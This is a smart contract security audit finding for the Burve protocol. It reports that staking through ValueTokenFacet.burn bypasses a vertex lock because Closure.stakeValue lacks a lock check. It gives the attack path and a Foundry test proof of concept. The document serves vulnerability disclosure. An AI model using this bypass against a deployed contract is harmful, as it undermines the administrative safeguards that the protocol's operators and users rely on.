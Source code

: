 Brilliant Gingerbread Osprey

Medium

# User will bypass vertex lock mechanism during staking, impacting Protocol Integrity

### Summary

A missing lock check in the `Closure.stakeValue` [function](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L517) will cause a bypass of the vertex lock mechanism for Protocol Integrity as a User will call `ValueTokenFacet.burn` to stake value into a closure containing a locked vertex.

### Root Cause

In `src/multi/closure/Closure.sol:536` the `stakeValue` function lacks a check to verify if any constituent vertices of the closure are locked before proceeding with the staking logic and calling `trimAllBalances`.

### Internal Pre-conditions

1.  User needs to call `valueFacet.addValue` and `valueTokenFacet.mint` to set their Value Token balance for the target closure (`cid3`) to be greater than 0.
2.  User needs to call `valueTokenFacet.mint` to set `closure.valueStaked` to be less than `(closure.targetX128 * closure.n) >> 128`.

### External Pre-conditions

1.  Authorized Locker needs to call `lockFacet.lock` to set the `locked` status of a vertex within the target closure (`cid3`) to be `true`.

### Attack Path

1.  User calls `valueFacet.addValue` providing liquidity to closure `cid3` (e.g., involving `tokens[0]`, `tokens[1]`, `tokens[2]`).
2.  User calls `valueTokenFacet.mint` for closure `cid3` to unstake some value, receiving value tokens and creating staking capacity in the closure.
3.  Authorized Locker calls `lockFacet.lock` targeting one of the vertices in `cid3` (e.g., `tokens[1]`).
4.  User calls `ValueTokenFacet.burn` targeting closure `cid3` with the value tokens obtained in step 2. This call successfully stakes the value despite `tokens[1]` being locked, bypassing the lock mechanism for this operation.


### Impact

The Protocol Integrity suffers a bypass of the vertex lock mechanism, as staking operations can proceed on closures containing locked vertices, potentially interfering with administrative actions or leading to unexpected state interactions during a lock.

### PoC

```solidity
/// Test attempts to stake when a vertex is locked.
/// This test demonstrates that staking IS possible even when a related vertex is locked,
/// because the expected revert does not occur.
function testLockedStake() public {
    // Define the closure ID (tokens 0, 1, 2) used for the test.
    uint16 cid3 = 0x0007;
    // Define the initial amount of value Alice will add.
    uint256 initialValue = 10e18;
    // Define the amount of value Alice will unstake (mint value tokens for).
    uint256 valueToUnstake = 5e18;

    // Switch context to Alice's address.
    vm.startPrank(alice);
    // Alice adds initial liquidity (value) to the closure.
    valueFacet.addValue(alice, cid3, uint128(initialValue), 0); // Internal Pre-condition setup
    // Alice unstakes some value, receiving value tokens. This creates capacity for staking later.
    valueTokenFacet.mint(uint128(valueToUnstake), 0, cid3); // Internal Pre-condition setup
    // Stop impersonating Alice.
    vm.stopPrank();

    // Switch context to the owner's address.
    vm.startPrank(owner);
    // The owner locks token1, which is part of the closure cid3.
    lockFacet.lock(tokens[1]); // External Pre-condition setup
    // Stop impersonating the owner.
    vm.stopPrank();

    // Switch context back to Alice.
    vm.startPrank(alice);
    // *** VULNERABILITY DEMONSTRATION ***
    // Expect the next call to revert because token1 is locked and staking triggers trimBalance on the locked vertex.
    // The `burn` function calls `Closure.stakeValue`, which calls `trimAllBalances`.
    // `trimAllBalances` iterates through vertices, calling `_trimBalance`, which calls `Vertex.trimBalance`.
    // `Vertex.trimBalance` *should* check `isLocked` and revert.
    // vm.expectRevert(abi.encodeWithSelector(VertexImpl.VertexLocked.selector, VertexLib.newId(1))); // Commented out to show success
    // Alice attempts to stake the previously unstaked value back by burning her value tokens.
    // !!! CRITICAL: This call SUCCEEDS instead of reverting, indicating staking is possible while locked. !!!
    valueTokenFacet.burn(uint128(valueToUnstake), 0, cid3); // Attack Path step 4: Staking succeeds despite lock
    // Stop impersonating Alice.
    vm.stopPrank();

    // Cleanup / further checks (not essential for PoC)
    vm.startPrank(owner);
    lockFacet.unlock(tokens[1]);
    vm.stopPrank();
    vm.startPrank(alice);
    // This might fail now due to lack of tokens/capacity after the successful (but unexpected) burn above.
    // valueTokenFacet.burn(uint128(valueToUnstake), 0, cid3);
    vm.stopPrank();
}
```


### Mitigation

_No response_